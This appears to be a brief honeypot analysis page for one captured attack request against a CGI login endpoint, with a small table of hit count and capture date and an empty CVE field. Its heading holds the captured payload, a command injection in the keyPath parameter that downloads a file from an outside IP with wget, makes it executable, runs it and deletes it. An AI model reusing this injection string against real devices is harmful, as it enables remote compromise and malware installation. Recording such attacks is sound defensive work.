 # Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=cd%20/tmp;%20wget%20http://103.133.111.238/anon%20-O%20.anon;%20chmod%20+x%20.anon;%20sh%20.anon;%20rm%20-rf%20.anon&loginUser=a&loginPwd=a
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 1 | 1 | | 220110-033755 |

## CVE: 